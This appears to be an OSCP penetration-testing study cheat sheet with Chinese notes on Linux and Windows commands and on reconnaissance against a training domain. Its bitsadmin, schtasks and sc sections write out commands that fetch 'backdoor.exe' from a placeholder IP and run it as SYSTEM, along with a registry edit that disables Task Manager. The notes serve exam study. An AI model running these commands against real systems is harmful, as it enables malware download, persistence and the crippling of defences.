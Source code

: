 # OSCP

## Parallels & Kali

Kali Linux 2023.2 ARM64
<https://www.kali.org/tools/>

## Linux

### shell

#### find

```shell
touch root_auto_schedule.sh
sudo chown root root_auto_schedule.sh
sudo chmod o+w root_auto_schedule.sh
sudo find / -user root -type f -perm -o=w -iname '*.sh' 2>/dev/null
```

#### cat | cut | uniq | sort

```shell
cat access_log.txt | cut -d " " -f 1 | uniq -c | sort -run
```

---

#### ss

```shell
ss -aptu
```

## Windows

### cmd & powershell

#### systeminfo

```shell
systeminfo /s host1
```

#### set

```shell
echo %temp%
```

#### dir

```shell
dir /a
dir /s *.exe /p
```

#### forfiles

```shell
forfiles /p c:\windows /s /m notepad.exe /c "cmd /s echo @path @fdate @ftime"
```

#### attrib

```shell
attrib -h local_hide.txt
```

#### icaacls

```shell
icacls local_hide.txt /grant Everyone:F
```

### reg

reg 是Windows命令行和脚本中用来操纵注册表的命令。reg 命令的全称是 "Registry Editor" 的缩写，它允许用户在命令行界面中执行注册表操作，如添加、修改、删除注册表键和值。

注册表是Windows操作系统中一个重要的数据库，存储了系统设置和配置信息，包括硬件、软件、用户偏好和系统设置等。通过 reg 命令，可以直接对注册表进行查询和更改，这对于系统管理和故障排除非常有用。

```shell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg add "hkcu\software\microsoftware\windows\currentversion\policies\system" /v disabletaskmgr /t reg_dword /d "1" /f
```

### bitsadmin

bitsadmin是一个Windows命令行工具，用于管理后台智能传输服务（Background Intelligent Transfer Service，简称BITS）。BITS是一项Windows服务，允许文件在网络上以异步方式传输，通常用于在用户不注意的情况下传输文件，如Windows更新或其他应用程序的数据更新。

bitsadmin 工具提供了一系列的命令来创建、监视和控制BITS作业。作业是由一个或多个文件传输组成的，并且可以根据网络条件动态地调整速度，这样在网络使用率低的时候可以更快地传输数据，而在网络繁忙时则减慢速度，避免占用过多带宽。

```shell
bitsadmin /list /allusers /verbose
bitsadmin /info xxx /verbose

bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://1.1.1.1/backdoor.exe" "c:\windows\temp\backdoor.exe"
bitsadmin /SetNotifyCmdLine backdoor "cmd.exe /c c:\windows\temp\backdoor.exe" NULL
bitsadmin /Setminretrydelay backdoor 1
bitsadmin /resume backdoor
```

### schtasks

schtasks 是Windows操作系统中用来创建、删除、查询、更改和运行系统任务计划的命令行工具。任务计划可以用来定时运行脚本或程序，执行系统维护任务，或者自动执行重复的作业。

```shell
schtasks /create /tn 任务名称 /tr 任务运行的命令 /sc 计划类型 /mo 修饰参数 /d 天 /st 开始时间 /ru 运行用户
```

```shell
schtasks /query /fo LIST /v
schtasks /create /tn "backdoor" /tr "c:\windows\temp\backdoor.exe" /sc minute /mo 1 /ru "system"
schtasks /run /tn "backdoor"
```

### sc

sc 是Windows操作系统中用来管理服务的命令行工具。sc 命令可以用来创建、删除、查询、更改和控制服务，如启动、停止、暂停和恢复服务。

```shell
sc query wsearch
sc qc wsearch
sc config wsearch binpath= "cmd.exe /c c:\windows\temp\backdoor.exe"
sc start wsearch
```

### SysinternalsSuit

- PsInfo64.exe /accepteula

---

## Information Gathering

<https://www.megacorpone.com/>

### whois

```shell
╰─❯ whois megacorpone.com
```

### host

```shell
╰─❯ host NS1.MEGACORPONE.COM
NS1.MEGACORPONE.COM has address 51.79.37.18
```

### google hacking

<https://www.exploit-db.com/google-hacking-database>

---

## OWASP 10

### 文件包含
<https://www.php.net/manual/zh/wrappers.php>

## Tips

1.

